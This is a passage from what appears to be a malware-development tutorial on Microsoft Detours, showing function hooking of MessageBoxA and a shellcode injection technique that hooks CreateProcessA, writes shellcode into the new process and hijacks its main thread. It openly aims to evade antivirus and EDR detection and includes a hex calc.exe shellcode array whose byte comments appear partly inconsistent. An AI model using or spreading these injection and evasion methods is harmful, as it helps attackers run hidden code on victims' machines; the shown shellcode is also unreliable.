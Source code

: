 ```cpp
int main() {
    PatchFunction((void*)MessageBoxA, HookedMessageBoxA);
    MessageBoxA(NULL, "Hello, world!", "Original Message", MB_OK);
    return 0;
}

```

**Why this is beneficial for malware development:**

- **Stealth**: Inline patching doesn’t rely on external libraries, making it harder for antivirus and monitoring tools to detect.
- **Full Control**: By manually patching the function’s entry point, attackers gain complete control over the function's execution without relying on Detours' built-in mechanisms.

## Real-World Sample: Shellcode Injection with Detours

Shellcode injection is a common technique used in malware to execute arbitrary code within the address space of a target process. Using Detours, we can hook specific functions, such as CreateProcessA, to intercept process creation and inject shellcode into the new process. By avoiding suspicious API calls, like CreateRemoteThread, we can make the injection more stealthy, reducing the chances of detection by EDR and AV systems.

In this example, we hijack the main thread of the newly created process instead of spawning a new thread, which is often flagged by security solutions. This method involves injecting shellcode to run calc.exe after hooking CreateProcessA.

**Steps:**

- **Hooking API Functions:** We hook CreateProcessA to intercept the creation of a new process. After the process is created, we use VirtualAllocEx and WriteProcessMemory to allocate memory and inject our shellcode into the target process.
- **Injecting Shellcode:** Instead of using CreateRemoteThread, which is a known red flag for security solutions, we modify the thread context of the main thread in the target process to point to our shellcode.
- **Executing the Shellcode:** The shellcode is a simple payload that launches calc.exe.
- **Restoring Original Functionality:** After injection, the thread is resumed to execute the shellcode, and the original CreateProcessA function is restored.
Example Code for Shellcode Injection

In this example, we hook CreateProcessA, allocate memory in the target process, inject the shellcode, and hijack the thread to run the injected shellcode.

```cpp

#include <windows.h>
#include <detours.h>
#include <stdio.h>

// Simple calc.exe shellcode
unsigned char calcPayload[] =
    "\x31\xd2"                          // xor edx, edx
    "\x52"                              // push edx
    "\x68\x63\x61\x6c\x63"              // push 'calc'
    "\x89\xe6"                          // mov esi, esp
    "\x52"                              // push edx
    "\x56"                              // push esi
    "\x64\x8b\x72\x30"                  // mov esi, fs:[edx + 30h]
    "\x8b\x76\x0c"                      // mov esi, [esi + 0Ch]
    "\x8b\x76\x1c"                      // mov esi, [esi + 1Ch]
    "\x8b\x6e\x08"                      // mov ebp, [esi + 8]
    "\x89\xf1"                          // mov ecx, esi
    "\x56"                              // push esi
    "\x56"                              // push esi
    "\x51"                              // push ecx
    "\xff\xd5";                         // call [ebp + 24h] // Start the process calc.exe
```